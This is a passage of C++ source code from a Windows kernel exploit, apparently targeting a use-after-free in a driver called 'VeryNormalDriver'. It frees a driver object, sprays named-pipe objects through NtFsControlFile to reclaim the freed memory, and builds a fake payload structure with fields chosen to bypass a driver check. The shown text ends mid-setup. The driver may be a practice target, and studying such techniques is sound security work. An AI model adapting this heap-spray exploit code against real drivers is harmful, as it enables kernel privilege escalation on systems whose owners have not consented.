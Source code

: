 ```cpp
        if (!ol.hEvent) {
            printf("[!] Error creating event: %d\n", GetLastError());
            exit(1);
        }

        phFileArray[i] = CreateFile(L"\\\\.\\pipe\\exploit", GENERIC_READ, 0, NULL, OPEN_EXISTING, 0, 0);

        if (phFileArray[i] == INVALID_HANDLE_VALUE) {
            printf("[!] Error while opening the named pipe: %d\n", GetLastError());
            exit(1);
        }

        NTSTATUS ret = _NtfsControlFile(phPipeHandleArray[i], 0, 0, 0, &isb, FSCTL_CODE, data, size, NULL, 0);

        if (ret == STATUS_PENDING) {
            DWORD bytesTransferred;
            if (!GetOverlappedResult(phFileArray[i], &ol, &bytesTransferred, TRUE)) {
                printf("[!] Overlapped operation failed: %d\n", GetLastError());
                exit(1);
            }
        }
        else if (ret != 0) {
            printf("[!] Error while calling NtFsControlFile: %p\n", ret);
            exit(1);
        }
        CloseHandle(ol.hEvent);
    }
}

typedef struct payload_t {
    LIST_ENTRY64 Entry;
    UINT64 Pid;
    UINT64 ZeroIfFree;
    UINT64 * MdlAddress;
    UINT64 MappedPagesAddress;
    UINT64 Length;
} PAYLOAD;

int main()
{
    printf("[+] Allocating Object\n");
    HANDLE hDriver = CreateFile(L"\\\\.\\VeryNormalDriver", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE) {
        return -1;
    }
    AllocateKernelObject(hDriver);
    printf("[+] Freeing Object\n");
    CloseHandle(hDriver);
    void* data = VirtualAlloc(NULL, 0xB0, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    void* data2 = VirtualAlloc(NULL, 0xB0, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memset(data, 0x41, 0xB0);
    memset(data2, 0x0, 0xB0);
    PAYLOAD p = {0}; //
    p.Pid = GetCurrentProcessId(); // <------------------------------------------------------ used so the driver associates with our same process.
    p.ZeroIfFree = 0xFFFFFFFF; // <---------------------------------------------------------- used to bypass the read file check
    VOID* OurBuffer = VirtualAlloc(NULL, 0x1000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    memset(OurBuffer, 0x0, 0x1000);
```
